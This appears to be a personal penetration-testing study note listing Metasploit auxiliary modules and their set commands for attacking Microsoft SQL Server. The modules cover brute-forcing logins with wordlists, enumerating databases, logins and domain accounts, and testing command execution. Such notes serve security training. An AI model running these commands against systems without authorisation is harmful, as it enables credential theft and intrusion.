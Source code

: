 ### MSSQL (Microsoft) Metasploit 

<mark style="background: #FF5582A6;">msfconcole</mark>
+ <mark style="background: #ADCCFFA6;">mssql_login</mark>
	+ will <mark style="background: #FFF3A3A6;">brute force</mark>
	+ `use auxiliary/scanner/mssql/mssql_login`
		+ `set rhosts IP`
		+ `set pass_file /usr/share/metasploit-framwork/data/wordlists/unix_passwords.txt`
		+ `set verbose false`
		+ `set user_file /root/Desktop/wordlist/common_users.txt`
+ <mark style="background: #ADCCFFA6;">mssql_enum</mark>
	+ lots of <mark style="background: #FFF3A3A6;">database information</mark>
	+ `use auxiliary/admin/mssql/mssql_enum`
		+ `set rhosts IP`
+ <mark style="background: #ADCCFFA6;">mssql_enum_sql_logins</mark>
	+ can <mark style="background: #FFF3A3A6;">see logins and the user type</mark>
	+ `use auxiliary/admin/mssql/mssql_enum_sql_logins`
		+ `set rhosts IP`
+ <mark style="background: #ADCCFFA6;">mssql_exec</mark>
	+ can see if can <mark style="background: #FFF3A3A6;">run commands</mark>
	+ `use auxiliary/admin/mssql/mssql_exec`
		+ `set rhosts IP`
+ <mark style="background: #ADCCFFA6;">mssql_enum_domain_accounts</mark>
	+ can see <mark style="background: #FFF3A3A6;">domain accounts</mark>
	+ `use auxiliary/admin/mssql/mssql_enum_domain_accounts`
		+ `set rhosts IP`
